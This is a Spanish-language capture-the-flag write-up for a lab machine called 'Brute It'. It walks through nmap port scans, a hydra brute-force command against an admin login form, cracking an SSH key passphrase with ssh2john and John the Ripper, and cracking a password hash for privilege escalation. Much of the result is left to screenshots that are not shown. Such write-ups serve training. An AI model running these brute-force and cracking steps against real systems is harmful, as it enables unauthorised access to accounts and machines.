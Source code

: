# Brute It

## Scanning
```bash
sudo nmap -sS -p- --min-rate 5000 -vvv --open -Pn -n 10.10.106.96 -oG allports
nmap -sC -sV -p 22,80 10.10.106.96 -oN targeted
```
![0712150305.png](0712150305.png)

## 80

![0712160430.png](0712160430.png)

Encontramos un enlace en la ruta `/admin`, donde tenemos un panel de administración.

![0712160449.png](0712160449.png)

Si vemos en el código fuente encontramos el usuario.

![0712170502.png](0712170502.png)

Podemos usar hydra para encontrar la contraseña.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -V 10.10.106.96 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```

![0712160451.png](0712160451.png)

## User Flag

En la página encontramos una flag y un **rsa private key** para descargar. Nos piden realizar fuerza bruta al rsa así que usamos una funcionalidad en parrot llamada ssh2john.

```bash
python2 /usr/share/john/ssh2john.py id_rsa> rsajohn
```

Con eso podemos usar john the ripper para crackear la contraseña.

![0712170541.png](0712170541.png)

Ahora podremos entrar por ssh (con el usuario john)

```bash
sudo ssh john@10.10.106.96 -i id_rsa
```

![0712170552.png](0712170552.png)

## Escala de privilegios

Buscamos si tenemos algún permiso como sudo.

```bash
sudo -l
```

![0712170522.png](0712170522.png)

Ahora con el hash lo guardamos en un archivo en nuestra computadora y usamos john para crackear la contraseña.

```bash
john password --wordlist=/usr/share/wordlists/rockyou.txt
```

![0712170554.png](0712170554.png)

Lo probamos en la consola del otro lado.

![0712170524.png](0712170524.png)